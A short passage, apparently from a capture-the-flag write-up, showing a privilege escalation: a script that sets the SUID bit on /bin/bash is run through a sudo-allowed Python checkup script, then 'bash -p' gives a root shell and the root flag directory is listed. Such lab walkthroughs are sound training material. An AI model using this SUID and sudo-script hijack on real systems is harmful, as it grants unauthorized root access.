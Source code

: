 Inside `full-checkup.sh` I included the following
```bash
#!/bin/bash
chmod +s /bin/bash
```

I then entered the following commands.
```bash
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
/bin/bash -p
```

We have root!
```bash
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# ls
ecosystem.config.js  root.txt  scripts	snap
```